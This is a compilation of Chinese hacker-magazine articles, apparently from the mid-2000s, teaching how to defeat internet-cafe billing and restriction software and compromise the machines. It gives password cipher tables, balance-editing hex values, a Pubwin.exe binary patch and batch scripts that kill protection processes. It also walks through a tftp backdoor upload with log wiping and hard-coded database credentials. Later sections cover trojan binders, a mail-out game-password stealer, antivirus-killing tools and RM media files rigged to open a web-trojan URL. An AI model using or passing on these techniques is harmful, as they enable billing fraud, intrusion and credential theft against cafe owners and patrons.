假如你成功入侵了网吧主机，你会想干些什么呢？不管你想的是什么，反正我想的是怎样让自己绝对安全地免费上机！我有三个想法：一是通过修改会员数据库给自己的会员加时；二是通过远程控制给自己的会员加时；三是利用美萍“人性化”设计，把自己这台电脑的收费标准改一改，例如改成“0.01元/小时”等等。

但是想归想，理论与实际还是有差距的：数据库不好改、3389控制风险高、管理员设置经常改不下去。那怎么办？放弃吗？不！于是我把网管大师下载到U盘，回家慢慢研究，终于找到了解决办法。

##### 第一招：釜底抽薪（软件设置模块漏洞）

还记得我们上面的第三个想法吗！通过这个漏洞，你就可以把自己这台机器的收费标准给改了！话说我把网管大师搞到家之后，就开始刻苦研究。先用 WinHex 反编译网管大师目录下的文件，反复尝试修改收费标准。最初在 VM Ware 虚拟机中操作发现设置改不动，后来才发现网管大师会在目录下生成 netmoney.ini 文件并读取参数。

```ini
computernum=20
mintime=5
money=1.5
timehint=1
netmoney=1.0
soundfile=C:\Windows\MEDIA\...
clienttime=5
isshowtj=1
minmoney=2
nightmoney=10.0
whenierunnet=1
closeclientprogram=1
multilogin=0
minjifei=50
timehyhint=0
inputuser=0
hotcolor=255
runcolor=15986797
onlyscon=1
yjfj=0
...
hintclient=1
autorun=0
enclosewindows=0
hvmistopass=0
useipx=...
...
setuppassword=x{z
exitpassword=x{z
```

……了所有加密后字符的密文！下面是我的工作成果，这可是要收费的哦！嘿嘿！

| 明文 | 密文 |
|---|---|
| 1 | x |
| 2 | { |
| 3 | z |
| 4 | j |
| 5 | l |
| 6 | ... |

（表：明文与密文对照表，含字母/数字与符号映射）

> 注意：字符“1”是“空格”的密文，反过来“空格”也是“1”的密文。关于字符“6”的密文，在文本中显示异常，可通过 WinHex 查看 manager.ini 的十六进制值（约为 `7F`）。

##### 使用方法

- 1. 密码 `123` 加密后密文 `x{z`
- 2. 密码 `x{z` 加密后密文 `123`

这回大家都清楚该怎么用了吧！……如果入侵网吧主机，破解管理员密码后，再用管理员账号给自己加钱会怎样？

需要说明的是，这个文件可以用文本直接打开并修改，但要重启才生效。相信有了这些代码，你应该比管理员还牛了吧！

##### 第二招：借刀杀人（加密算法漏洞）

通过 `scon.cfg` 中的 `setuppassword=x{z` 可看出密码被按字符逐位加密，而非整串加密。可通过逆运算/逐一实验推出每个字符的密文与明文对应关系。

图7下文：采用逐一实验法，经过若干尝试后算出字符映射关系。

##### 第三招：瞒天过海（数据库漏洞）

会员数据库并非标准 `*.mdb`，但可先用文本方式查看，再用 WinHex 反汇编分析 `cfg`。可定位会员名、加密密码及余额记录位置。

图8下文：继续说明如何从记录结构中找到会员剩余金额字段及其含义。

剩余金额的地方是有规律可寻的！一般会员名后面跟4-5组16进制码“01”，后面一般就是记录会员剩余金额的地方了（图10）。关于记录会员剩余金额的16进制信息，我也统计了一张表，希望对大家有用！

关于美萍网管系列软件的漏洞，到此就算完全讲完了！不知大家发现了没有，我所讲述的漏洞，利用的无非是关于软件设置等文件内容明文保存这一主要漏洞和非常容易修改表格的重要设置！所以在许多情况下，仅仅需要一个简单的文本文档就可以达到许多目的！

| 金额 | 16进制 |
|---|---|
| 10元 | 20 41 |
| 20元 | A0 41 |
| 30元 | F0 41 |
| 40元 | 20 42 |
| 50元 | 48 42 |
| 60元 | 70 42 |
| 70元 | 8C 42 |
| 80元 | A0 42 |
| 90元 | B4 42 |
| 100元 | C8 42 |
| 110元 | DC 42 |
| 120元 | F0 42 |
| 200元 | 48 43 |
| 300元 | 96 43 |
| 400元 | C8 43 |
| 500元 | FA 43 |
| 600元 | 16 44 |
| 700元 | 2F 44 |
| 800元 | 48 44 |

有了以上这些，我想应该能满足各位的需要了吧！另外，关于修改会员数据库的剩余金额，是不被美萍的任何统计记录的！这点需要大家注意！不过这样也好，省得让可爱的 M.M 网管天天为我们掏腰包了！

只有我们想办法利用好身边的一些看似毫不起眼的工具，去突破那些看似牢不可破的难题，才能带给我们真正意义上的成功与胜利！本文就是一个证明。看着美萍在简单的文本文档面前显得是多么脆弱！没有做不到，只有想不到！

> （本文涉及到的工具 WinHex，已经收录于光盘中）

### 实写周末懂行网吧

100%纯情男生

在05年11期的杂志中，我们已经将网吧横行了一次……当时的思路想必大家都还记得吧，主要就是想办法下载，然后想办法使用下载到的工具。不过，当初提及的那个使用QQ 群共享下载的方法现在已经行不通了，因为QQ进行了系统更新。

上有政策，下有对策，才是一个合格的好菜鸟。来看我的新方法！又到了上次去的那个网吧，打开QQ 群共享，什么也没有（图1）！开始迎接新的挑战！系统再好，也会有漏洞的。

点击之后弹出对话框提示“WINDOWS 禁止了 ACTIVEX 控件”，不能下载。继续想办法，试试 FTP。于是输入个人主页的 FTP 地址，弹出登录框。无意中看见登录框下方有英文“using web folders”，随意点入后出现可登录路径。

出了一个WEB式的帮助和支持中心（微软叔叔真为我们着想……）……终于在更改 Internet 设置的帮助中找到打开 Internet 选项这几个字（图4）。点击，可爱的 Internet 选项就跳出来了！修改安全级别属性，启用 ACTIVEX 控件……

回到QQ极速下载，点击，终于跳出了下载框……继续下去！帮助和支持中心能打开 Internet 选项，那能不能打开 cmd 呢？……在“配置命令提示符”的帮助中见到了“打开命令提示符”（图5）。

```bat
echo iLocal = LCase(WScript.Arguments(0))>>iget.vbe
... 
echo xPost.Open "GET", iRemote,0>>iget.vbe
... 
echo sGet.Write(xPost.responseBody)>>iget.vbe
echo sGet.SaveToFile iLocal,2>>iget.vbe
```

iget.vbe 就建成了，我们下载一个“灰键激活工具”，填入 iget http://.../kk.rar……运行，输入 kk.rar 或 start kk.rar，GREAT！解压框出来了！双击灰键激活工具，运行了（图6）。

点“激活”，再把鼠标移到刚刚QQ极速下载框“保存”两个字上一点，YEAH！变黑了！……下载完毕，点打开，就可以安装QQ正式版了……

问：Mysql密码我是在空密码状态怎么恢复？  
答：如果 MySQL 正在运行，首先杀之：`killall -TERM mysqld`，启动 MySQL：`bin/safe_mysqld --skip-grant-tables &`，就可以不需要密码进入 MySQL 了。然后就是：

```sql
use mysql;
update user set password=password('newpass') where user='root';
flush privileges;
```

重新杀 MySQL，用正常方法启动 MySQL，即可进入。

问：在 `Windows\Temporary internet files\Content.IE5\index.dat` 中……为什么删不掉？  
答：这个文件本身就是这样的……Windows Cookies 中也有这样的文件……

问：我在浏览器用右键点某个下载连接，并选择了“使用网际快车下载”……该功能无反应，怎么办？  
答：可先检查 FlashGet 安装目录下 c_link.htm、jcatch.dll 等文件；若缺失则拷贝回来。然后在命令提示符进入安装目录，执行 `Regsvr32 jccatch.dll` 和 `Regsvr32 fgiebar.dll` 重新注册 DLL 文件即可。

### 在线三招麻主城网吧

如图4、图5。此时，不用口令就能直接进入 pubwin 的管理员界面了。笔者也是都闷了好久才想到这个方法。不过如果你喜欢使用工具的话，也可以使用 pubwin4 精灵达到同样效果。

#### Pubwin 下的另类免费

先给大家介绍一个另类的 pubwin 免费方法：进入 pubwin 的管理员界面（如图1），把“定时到后处理”和“结帐后处理”改为“无任何操作”，并调整相关参数（如图2）。这样卡里余额用完后，机器不会自动结帐重启或关机，还可继续上网。

但这类方法更适合临时卡；会员卡如果欠费会很容易被发现。要实现上面的方法，前提是先进入管理员界面。可用 winhex 打开 pubwin 内存并搜索 `welcome_ty`，定位并修改相关字节内容。

#### 搞定网吧服务器

如何判断 pubwin 的服务器 IP？在命令提示符下用 `arp -A` 查看（如图6）。除去网关和共享文件服务器后通常可定位目标IP。还可通过 winhex 搜索上网登录卡号，或直接在管理界面查看。

定位服务器IP后，可参考注册表位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`。文中提到可用 findpass 从内存读取密码（如图7），并结合端口与系统版本情况进行尝试。

服务器密码是否可直接利用取决于环境与运气；若失败需继续验证补丁、端口开放情况并多次测试。

## 网吧黑客

杂志中已经讲过了。由于现在网吧的 ipc$ 漏洞基本都不存在了，所以也只能 telnet 上去。我使用 Cisco TFTP Server 把本机做成 tftp 服务端，把后门传了上去。登录对方后，在 cmdshell 下使用 `tftp -i 192.168.0.8 get hacker.exe`，hacker.exe 就从我的电脑中下载到了对方的当前 cmdshell 目录下了（前提是不被查杀）；输入 `hacker.exe` 就可以直接运行了。我一般喜欢使用 radmin，基本上不被查杀。然后使用 `attrib +h +s hacker.exe` 就把这个属性设置成隐藏了。

整个入侵过程越快越好，这样才能减少被发现的机会，不然一个 `netstat -an` 就把你的 IP 给查出来了。最后完事了记得要把 radmin 服务端的进程给结束掉，当然是在对方的 cmdshell 下进行，`ntsd -c q pn 进程名`，也可以是 `ntsd -c q -p 进程id`，然后就是删除日志和关闭 telnet。也可以使用 ca 等工具克隆个管理员账号。（文章中涉及到的工具 winhex、findpass、Cisco TFTP Server、radmin，光盘中已经收录）


“天宇”是我们这儿最大型的一家网吧，口碑一直都不错。我们尝试看可不可以进入 C 盘，在地址栏中直接输入 C:，提示我们不允许直接访问（图3）。据说在这里基本不会有盗号的现象，换句话说就是这里的网管很厉害。那到底厉害到什么程度呢？就让我们来见识一下吧，交钱上机，桌面如图1所示。


图1


图3

“开始”菜单已经被修改得很干净了，“我的电脑”倒是在桌面上，打开看看（图2）。

看来，管理员已经禁止访问 C 盘了，这个网吧的确比较厉害。另外我尝试打开任务管理器时也提示已经被管理员禁用。我们再来看看下载，随便下载一个东西，却发现根本没有“打开”选项，而“保存”按钮也是灰色不可用（图4）。


图2


图4

前面的 C 盘到 F 盘已经被隐藏了，既然网管没有隐藏 G 盘和 H 盘，也就说明了在这两个盘上面没有什么有价值的东西可存。网吧中的设置情况基本就是如此了。由于可以使用右键，我打开桌面上一个快捷方式的属性，希望可以通过“查找目标”到达磁盘，但是却发现只有“更改图标”这一项了（图5）。


图5

我们再来试试 IE，打开 IE，再依次点击 IE 工具栏上“文件”→“打开”，却发现“确定”按钮也是灰色的不可选（图6）。点击“浏览”，总算是找到了突破点了，我们可以在文件名栏中直接输入 `c:\windows`，就可以进入到 windows 目录下了（图7）。


图6


图7

另外有一点别忘了，我们要把“文件类型”改为“所有类型”，这样才会看到除了 HTML 以外的所有文件。好了，我们终于解决进入磁盘的问题了，接下来的破解就由 Windows XP 的新主角——组策略来帮我们的忙了。

组策略是微软为 Windows XP 以后的系统加的新工具，通俗点来讲它融合了很多实用的对系统内部进行修改的功能。在这以前，我们基本上是靠修改注册表才能实现的，有了组策略就更显得方便和傻瓜化了。简单地说它就是一个注册表工具。组策略的执行文件 `gpedit.msc` 是存放在 `%windir%\system32` 下的（图8）。我们可以通过在“开始”→“运行”栏中输入 `gpedit.msc` 来打开它。


图8

打开组策略后我们先来解除任务管理器的限制，依次展开“用户配置”→“管理模板”→“系统”→“Ctrl+Alt+Del 选项”（图9）。


图9

在右边的窗口中双击“删除任务管理器”，然后会弹出一个对话框（图10）。


图10

选上“已禁用”，确定。现在就可以打开任务管理器了（图11）。进一步，我们把所有磁盘都弄出来，依次展开组策略“用户配置”→“管理模板”→“WINDOWS 组件”→“Windows 资源管理器”（图12）。


图11


图12

在右边窗口中你可以找到“隐藏‘我的电脑’中的这些指定的驱动器”，双击后在对话框中选择“已禁用”保存，然后再打开“我的电脑”（图13），硬盘上所有的分区都显示了出来。


图13

因为我听朋友说平日里如果有人要下载歌曲到自己的 MP3 播放器的话都得叫网管，这也就是说网管是可以在计算机上下载东西的（废话）。但是我在里面找了很久都没有找到什么有用的东西，会不会是网管把文件隐藏了呢？于是我打开文件夹选项（图14），果然，设置的是不显示隐藏文件。


图14

这就更加肯定了我的想法，不然管理员为什么要禁止我们查看隐藏文件呢？我也不卖关子了，直接给大家说破解的办法。打开注册表 `HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\`，下有两个项“NOHIDDEN”和“SHOWALL”，展开“SHOWALL”，看到双字节值“checkedvalue”的数值为0（0x0），把该数值改为1，同时进入先前的“NOHIDDEN”项里把“Type”的数值数据由“_”改成“radio”，这样我们才可以在文件夹选项里看到“显示所有文件和文件夹”。关闭注册表，打开文件夹选项，可以正常操作。选择显示全部文件，隐藏的文件就出来了。我在 D 盘下找到了一个名为“突破”的文件（图15）。


图15

使用“windows 按钮突破专家”，“保存”变为可用；我们就可以下载东西了（图16）。


图16

到此，我们就可以在这台电脑上为所欲为了。灵活地运用“组策略”不仅能够破解诸多限制，也能让我们的系统变得更安全。

### 更改进程解除网吧限制

￡ 我是孟星魂

现在不少的网吧都有各种各样的使用限制，比如隐藏磁符、禁用 internet 选项等，但这都只是障眼法。看了这么久的 X 档案，想必大家都有了对付的方法吧。不过其中有一种“金俊坤网吧专用系统（WINDOWS XP 修改）”，这个可是最近比较新的网吧完整镜像系统，用过的朋友应该都见识过它的厉害吧，不准删文件、权限限制、任务管理器无法结束进程……

经过多次上网琢磨，终于让我找出了破解的方法，其实就是一些最笨和最通用的办法。同时还有一些关于系统修改的方法，一并共享出来，希望对大家有所帮助。

网吧还是在使用 pubwin 管理系统。有关 pubwin 的破解方法在以前的杂志上介绍过许多，我不久前又找到一种新方法：使用 UltraEdit32 打开 Pubwin.exe，在找“85C07509”，将其改为“85C09090”，再查找下一个，再改为“85C09090”，然后保存为“Pubwin.exe”和“pubwin.pub”即可免去密码验证。

使用 ctrl+alt+del 调出任务管理器，记得第一次见到这么变态的任务管理器时还真傻眼了，进程只能看不能关闭，还有“网吧专用系统禁止结束进程”。不过相信经常看 X 档案的朋友一定还有办法：JUST DO IT ALL IN CMD，使用任务管理器的“运行”功能填上 cmd，在弹出的命令提示符里输入以下命令：

```bat
copy con del.txt
(taskkill /im reclock.exe)
del "c:\Program Files\pinsoft\reclock.exe"
(taskkill /im pubwin.exe)
del "c:\Program Files\pinsoft\pubwin.exe"
taskkill /im explorer.exe
start c:\WINDOWS\explorer.exe
```

按键盘上的 F6，回车（分号后的注释不用写），显示“已复制 1 个文件”。这样就在用户文件夹下生成 del.txt。接着将其改为批处理文件并执行，可绕过任务管理器无法结束进程的限制。刚进入系统时还可能弹出“检测到您的系统没有 pubwin，非法上机，系统将在 10 秒后关机”等提示，可继续尝试并处理相关进程。


选项：直接改配置选项。比如开机破解的时候最先运行功能打开配置文件，设置监视程序为 `svchost.exe`，这个进程什么时候都存在，这样这个保护程序就作废了。其实也可以运行一个进程名为 `pubwin` 的程序，比如把 QQ 的文件名改成 `pubwin`，在开机破解 `pubwin` 的时候运行的批处理文件后边加上下面的命令：

```bat
cd /d "Program Files\Tencent"
Ren qq.exe pubwin.exe
Start c:\Program Files\Tencent\pubwin.exe
```

大家可以自己试一下。一定要仔细看它的配置说明，弄不好的话开机就重启，进不了系统可别怪我啊（图5）。这个工具还有很多用法，可以自己发挥。比如保护你网吧上的木马，监视进程为你的木马进程，设置时间短一点，处理方式为 3，木马进程被结束就再运行；狠一点处理方式为 1 或 2 就是关机，让他用不成电脑。注意这个进程监控程序不是开机自动加载的，要自己添加启动项。

说道杀木马，大家是不是为自己肉鸡上的杀毒软件头疼啊，不能直接给它删了，还不能不让它运行。没想到在这个进程保护程序的下载网页上找到了个好东西，无窗口且显示进程为 `Explorer`（注意开头字母大写），其实这也是为网吧服务的，不过现在还没人用，正好留给我们。看一下说明：“本程序自动监控窗体中黑色包含下面这些关键字的程序，一旦发现立刻关闭。”

> 关键字列表：
- Internet 属性
- 网络连接
- 在线杀毒
- Winhex
- 还原卡破解


介绍说是用最新的进程隐藏算法，没什么真正的功能。删除密码数据文件无进程无 DLL，特意强调是最好的反击黑客的程序。网上也没有相关破解教程，只好自己想办法了。用 filemon 监视发现它的密码没有存放在注册表，而是在目录的 `fwonline.edb` 文件里（密码默认是 `1234567890`），配置文件是 `jc_config.ini`。开始我想使用 OLLYDBG 破解它的密码算法，不过我发现这个软件的自身保护性还不错，所有的资源都加密了。

```ini
[system]
监视时间=
监视程序=pubwin.exe
...
```

这些就是在配置里明文显示的那些，必须是隔行，一行一个。大家可以自己用记事本打开目录下的 `netbar.dll` 进行添加。这样可以控制杀毒软件查杀和升级窗口的标题、文件夹名等关键字，例如 `KAV2005`、`金山毒霸2005`、`金山在线升级` 等。


图5

升级窗口就自动关闭窗口，不影响程序，这样就算是有杀毒软件也没用，真正制造了免杀木马。这个办法就算是一般的管理员也不知道怎么回事，重装杀毒软件也没用，除非是在你的关键字里没有的，所以说知道的尽管往里写，可以配合刚才的进程监控程序……现在在关键字里写上“系统设置—本程序由『风网科技』出品”……再给进程监控程序换上个系统的图标，飞不走的肉鸡就打造成功了。


图6

地球人都知道，要是你实在找不到这个软件的启动项，想破解这个软件的话就修改窗体，推荐使用软件魔法师，大家一定要适可而止（图6）。禁止删除文件的问题不是像以前那样用“灰色按钮突破专家”就能搞定的……用资源修改器 eXeScope 打开 SHELL32.DLL，展开对话框，修改删除文件确认相关项目后保存即可。


图7

如果嫌麻烦还可以用正常的 SHELL32.DLL 文件替换……注意顺序先替换 system32 下再替换 dllcache 下。明白了修改方法后，任务管理器也能修改，可以给程序加密运行、提升权限，打造自己的“无敌任务管理器”。最后我发现有的网吧里并没有那个进程保护程序，可能它不是网吧专用系统集成的。

有所不同，所以大家遇到问题一定要先自己想办法，这样才能提高自己的水平。

（本文中所涉及到的代码和关键字进程监控管理、eXscope6.5、软件魔法师、专用加强任务管理器等光盘中有收录）


图8

## 菜鸟之社破解机房网管2004的用户数据

FLY

放寒假时，发现我们当地网吧基本都用上了万象网管2004来管理整个网吧。当我在网上邻居中看到服务器的名字就叫做“服务器”时，就习惯性地在“开始”→“运行”栏中输入“\\服务器\\c$”，没想到还真的进入了 C 盘。但是进去之后并没有发现万象2004的安装文件夹，会藏到哪里呢？他的桌面上肯定有万象的快捷方式，我接着进入“Documents and Settings”→“Administrator”→“桌面”目录。果然，万象服务端的快捷方式正安安静静地躺在那里呢。在上面点击右键，选择“属性”，哈哈，起始位置已经把它显示出来了，是存放在 `d:\wx2004` 目录下的。

下面就好办了，输入“\\服务器\\d$”，进入 D 盘，接着进入 wx2004 文件夹中。我们需要的文件是三个数据库文件：2004rec.mdb（上机记录和历史记录资料）、2004mem.mdb（会员资料）、2004stck.mdb（商品资料），另外还得加上吉胜的安全机制文件：SICENT.MDW（千万不要忘了哦，不然是打不开的）。

很多朋友曾经在得到数据库文件后问我，为什么使用 access 密码分析专家分析出来的密码不能进入数据库，提示缺少必要权限（图1）。其实就是他缺少了吉胜的安全机制文件 SICENT.MDW。下面我们来看一下怎么使用它。


图1

首先我们的电脑上得有 Access（在 OFFICE 中包含了 Access），我们以 OFFICE 2003 为例，打开 Access，选择工具/安全/工作组管理员，点击“加入”，然后选“浏览”，选择吉胜的安全机制文件 SICENT.MDW 的位置，然后点“确定”，如图2。

点“确定”，再点“确定”，又回到了刚打开 Access 时的画面，这时我们打开会员资料数据库 2004mem.mdb，发现了什么？呵呵，登录对话框，在里面输入名称：“datamaintain”，密码：“万象网管是一个发展了5年的成熟的产品”。密码是中文的哦，没错，就是引号中的这句话，建议你先输入到记事本里然后复制过去，如图3，点“确定”后才会出现数据库密码输入窗口，输入“zhrmghg1949jgqz”，呵呵，是不是有种一切尽在掌握中的感觉啊，如图4。


图2


图3


图4

最后，要自己使用还是修改后再上传到服务器就是你自己的事情了。好了，最后提醒大家，千万要注意安全哦。

### 网吧内鬼变凤凰

中央剖回


图1


图2


图3

前几天在网吧正冲着浪，突然发现自己的鼠标拖动了起来，失去了控制，第一个念头就是自己中招了。重启之后不禁纳闷，网吧不是有还原设备么？而且之前自己已经点击了两次了，怎么还会中木马？难道是对方刚种的？不可能呀，系统刷新监视和“冰点”在把关，这怎么可能呢？！

一跟网吧老板说，让他帮我调出了任务管理器（在网吧见到这个东西可不太容易啊），细心一看果然有反常的进程存在……

既然已经知道了，那就杀吧。没几分钟就搞定了，可是心中还是有些不爽——连还原都不怕，这么强硬的手段，我可不能不学。于是上网搜索“还原卡破解方法”“转存精灵”等相关资料并下载工具。

首先，打开转存精灵.exe，点击界面上的“server”按钮导入 server.exe；再点击“木马”按钮导入木马程序；然后点击“保存地址”选择输出路径；最后点击“生成”按钮，这样木马即可绕过还原体系并运行。

“防还原卡杀”终于告破了。随后又遇到“卡大叔”报警，于是改用捆绑免杀工具 MicroJoiner 对程序进行处理。该工具体积小、操作简单，只需把要合并的文件拖入界面即可。

这款工具支持自定义图标，也可以拖入相关程序图标并点击生成，形成“终极木马”。最后将生成程序放回原位并测试，达到“重启后仍可运行”的效果。

（本文所涉及的软件：转存精灵网吧版、捆绑免杀工具 MicroJoiner 已收录在光盘中）

## 呆呆虫问吧

**问：** 我的 XP 系统怎么图片预览功能失常了，怎么恢复啊？

**答：** 在使用 Windows XP 过程中，如果图片预览控件注册信息丢失，会导致无法正常预览。可在“开始/运行”中输入 `Regsvr32 Thunbvw.dll`（文中拼写如此），执行后会出现注册成功提示，重启后即可恢复。

**问：** 我 Windows 开机后，经常自动进入安全模式，怎么办？

**答：** 多与主板和内存不兼容或内存质量问题有关，常见于 PC133 内存与部分主板组合。可先在 CMOS 中降低内存频率或检查散热，如无效则考虑更换内存条。

### 瞬间秒杀网吧防御

想必各位菜鸟都经常出入网吧，也一定对网吧的种种限制深恶痛绝吧！今天我就给大家介绍一种瞬间秒杀网管系统的绝招，彻底颠覆常规破解思路。

还记得那是过年的时候，在老家一家网吧上网，机器状况实在令人不敢恭维，基本上只能打 CS，开监控居然死机，最要命的是这家网吧居然还要每小时 3 个大洋。其实想想也就算了，有玩的就不错了，可是没有想到这家网管如此 BT，屏蔽桌面右键，禁止下载控件（在线电影看不成），不能访问硬盘等等……

别的我还能忍受，但是那个屏蔽桌面右键简直是要命，你不仁就别怪我不义！打开我的 QQ 网络硬盘，下载早已准备好的精锐辅助，如图 1。


运行后解除了一部分限制，可是桌面右键依旧被屏蔽，仔细想想既然没有恢复右键，那应该是软件设置在搞鬼。首先想到的就是虚拟桌面和美萍，于是尝试 kill 它的进程。我使用的是一个非常好的东西——ECQ-PXP，它不仅可以 kill 掉进程，还可以直接秒杀掉部分版本的 pubwin4（网吧菜鸟们爽啊！）。运行 ECQ-PXP 选择相应进程，右键选择“通知进程结束”，一定要选择这个。

需要说明一点，kill 的时候一定要把两个进程都选中（按 Ctrl 实现），要不就被双进程守护得逞了。而 pubwin4 只需要选择主程序和 relock.exe，选择“通知结束”以后，等待大约 20 秒，某些版本 pubwin4 就直接 bye-bye 了。


破解还原卡比较容易，使用 Debug 绕过就 OK。若觉得 Debug 较麻烦，也可使用“硬盘保护卡克星”。实战中要注意：若机器下使用异常，可能重启后无法进入 Windows，建议先判断是否可做实验，进入系统后再继续。


点击确定后提示重启，第一次重启后通常不会直接进入 Windows，而是进入还原卡选项，按 ESC 退出进入系统。至此还原卡破解完成。接下来可在“开始→运行”中输入 msconfig，把启动项里与美萍相关内容删除，重启后虚拟桌面和美萍程序即可消失。

什么限制都没有了，还能免费上网，还不好么？不过技术不是用来满足私欲的，还是那句话：技术含量不高，只是抛砖引玉，希望大家思路多多！

（本文所涉及的软件 ECQ-PXP、硬盘保护卡克星已收录在光盘中）

- **问：** 不进安全模式，不借助第三方工具，怎么删除正在使用的文件？  
  **答：** 要用这个方法必须保证磁盘为 NTFS 文件系统才行。首先，找到正在使用而无法删除的文件，打开其“属性”→“安全”选项卡（XP 需在“文件夹选项”中取消“使用简单文件共享”），点“高级”打开高级安全设置，取消从父文件夹继承权限；在访问者列表删除其他账号，仅保留并编辑自己的账号权限，只勾选“删除”，取消“读取”“执行”等权限。确定后重启，系统中其他用户将无法读取该文件，文件不再是“正在使用”，而你自己的账号有删除权限，即可轻松删除。


### 网吧黑客秘籍

战神 MARS

本文由我学习 Flash 开始。由于没有自己的电脑，只好每天去网吧学习。不过每次都去天空软件园下载 70 多 M 的 Flash MX2004 中文版软件安装包，真是又费时间又费力，而且有时碰上网速很卡，甚至还下载不下来，实在是万分郁闷。后来在宿舍里唠叨，舍友提醒我可以将软件保存到“下载区”，以后就可以自由地从“下载区”复制到本机使用了。“下载区”？第二天飞奔网吧，仔细看了看网吧电脑的桌面，还真的发现了这个不起眼的图标，如图 1。双击“下载区”的图标进入，在“下载区”里转了转，狂喜！太高兴了。


图 1

所谓的“下载区”，其实就是网吧为方便网友上网而在网吧主机设立的一个专门用于保存软件的文件夹。一般网友将最好的游戏客户端程序或者游戏外挂上传到“下载区”，然后就可以用了，如图 2，免去了每次都要去网上下载的烦恼。


图 2

不过这个下载区一般在权限上没有任何限制，我们可以任意地对里面的文件进行复制、删除、修改。嘿嘿，权限太大了，就要出问题了。我们可以利用这个“下载区”来种植木马，而且一般的网友们还没有意识到这一问题，有些人还以为这“下载区”的软件都是网管下载下来以方便他们使用的呢。这下我们就有搞头了。

种植木马就要先介绍木马。最近我们这儿一款叫做“热血江湖”的游戏比较火，就介绍一款专门盗取“热血江湖”密码的小马吧。当然了，你也可以任意地换成其他木马，这取决于你要盗取什么网游的密码了。


图 3

“热血江湖密码嗅探器”软件使用极其简单。我们只要设置好收信的邮箱就可以了，软件的主界面如图 3 所示。在“邮件地址”中填上你用来接收密码的邮箱，“主题”中填入要发送密码的邮件主题，就是邮件的标题。在“SMTP 服务器地址”中输入你的邮箱的 SMTP 服务器地址，默认为“smtp.163.com”，接收邮件的端口一般为 25，不必改了。接下来填上伪装发送邮件的地址、登录的邮箱用户名、密码和详细的邮箱地址，然后就可以生成小马了。建议设置好这些选项后，点击“测试邮箱”来测试一下自己的邮箱，看能否正常发送和接收邮件。测试成功，如图 4，然后再点击“生成程序”，生成我们配置的小马。


图 4

不过我可不想赤裸裸地将木马文件直接放到“下载区”，那样太没水准了，别人也不会轻易运行它。我们需要伪装一下，使用捆绑器将小马和游戏程序捆绑在一起，这样只要有人一运行游戏程序，小马就在后台悄悄运行，我们就可以等着收取密码了。向大家推荐两款功能强大的免杀捆绑器。两款捆绑器各有特色，同一般市面上的捆绑器不同。

- 1. 百世经验捆绑机（如图 5）
- 2. 冬日捆绑机（如图 6）

1. 百世经验捆绑机，如图 5。使用方法很简单，选择宿主文件和木马文件，然后点“捆绑”。如果想让捆绑出的文件比宿主文件还小，就进行大小的伪装，这是此软件的一个特色之处。如果不想伪装的话，就选择“无伪装”，就是普通捆绑，同市面上常见的一些捆绑器没多大区别。如果宿主是 Flash，就选 Flash；如果宿主是 sdemo 动画，选 sdemo（大家以后看黑客动画可要小心了，哈哈）。再继续，点击“捆绑”按钮就 OK，在同目录下生成捆绑后的文件。此软件的特色之处在于“伪装”。捆绑成功之后，再点击一次“伪装”按钮，就可以对已经生成的捆绑文件进行“伪装”了。这样捆绑出的文件运行后，宿主文件会把捆绑文件替换，也就是说你的木马只有一次运行机会。这样做的目的：当对方运行了文件，如果他感觉有异，对这个文件进行检查时，那么这个文件已经是正常文件，而非捆绑文件，起到的效果自不必说了。


图 5

2. 冬日捆绑机。具体操作简单，用户界面友好。与别的捆绑机不同，它可以进行智能化设置，可以选择“释放到系统目录运行”或“异步运行”，以及“运行后删除文件”，如图 6。右键添加要捆绑的文件（最多可以捆绑 3 个文件），选择好生成的图标，如图 7，“保存”就 OK 了。生成的 EXE 文件可以任意选择图标加以伪装，而且生成的捆绑文件只比原来的所有文件总大小增加 12KB。


图 6


图 7

“下载区”中也有许多媒体文件（RM、RMVB、WMV、WMA 等），如果我们在媒体文件中做些手脚，那么当有网友打开媒体文件欣赏时，我们的网页木马就会在他不知不觉中种植成功，而且一般网友对这种种马方式毫无防备，我们种植成功的几率很大。RM、RMVB 木马同 WMV、WMA 木马制作方法、原理不同，我们分开来讲。

#### 1. RM、RMVB 中加入木马

Helix Producer Plus，一款图形化的专业流媒体文件制作工具，我们可以利用 Helix Producer Plus 这款软件把其他格式的文件转换成 RM 或 RMVB 格式，或者对已存在的 RM 文件进行重新编辑。在编辑的同时，我们可以把事先准备好的网页木马插入其中。这样只要一打开这个编辑好的媒体文件，插入在其中的网页木马会随之打开，我们甚至还能控制网页木马打开的时间，让网页木马更隐蔽。

##### 步骤 1

安装 Helix Producer Plus，一路“Next”完成安装（需要输入序列号？先运行压缩包中的 keygen.exe 获取序列号），然后我们要找一个 RM 电影文件，拷贝到 Helix Producer Plus 安装目录的 RealMediaEditor 文件夹下。

##### 步骤 2

设置运行网页木马的命令，新建一个文本文档，命名为 muma.txt（也可以是其他名字），在 muma.txt 文件中写入命令，如 `00:01:00 00:02:10 http://www.hackerxfiles.net/`，含义是当媒体文件播放到第 1 分钟后触发打开 URL 事件，然后到 2 分 10 秒时事件结束，最后面的 URL 地址就是网页木马地址。图 8 显示的是打开 X 档案让他不知不觉中招。

制作的网页木马应尽量隐蔽，并模拟正常网页，否则在看媒体文件时突然弹出网页谁都会有疑心。当然把它做成类似广告网页效果最好，别人会以为是广告，便一关了之，而这时我们已经种马成功了。


图 8

##### 步骤 3

向 RM 文件中插入触发 URL 事件文件。CMD 下进入 RealMediaEditor 文件夹，输入命令 `rmevents -i **1.rm -e muma.txt -o **2.rm`。这是最关键的一步，利用 Helix Producer Plus 自带的 rmevents.exe 把 muma.txt 这个触发 URL 事件合并到 **1.rm 中，并另存为 **2.rm。这个新生成的 ***.rm 便是我们需要的带有网页木马的媒体文件。可以建立这样的一个批处理文件，源码如下。

```bat
echo on
rem 制作RM、RMVB木马的批处理
rem by 战神MARS
cd "C:\Program Files\Real\Helix Producer Plus\RealMediaEditor"
rmevents -i *.1.rm -e muma.txt -o *.2.rm
```

图 9 中显示为批处理文件正在用 rmevents.exe 生成新文件。


图 9

#### 2. WMV、WMA 中加入木马

对于 WMA、WMV 文件，我们可以利用其默认播放器 Windows Media Player 的“Microsoft Windows 媒体播放器数字权限管理加载任意网页漏洞”来插入木马。

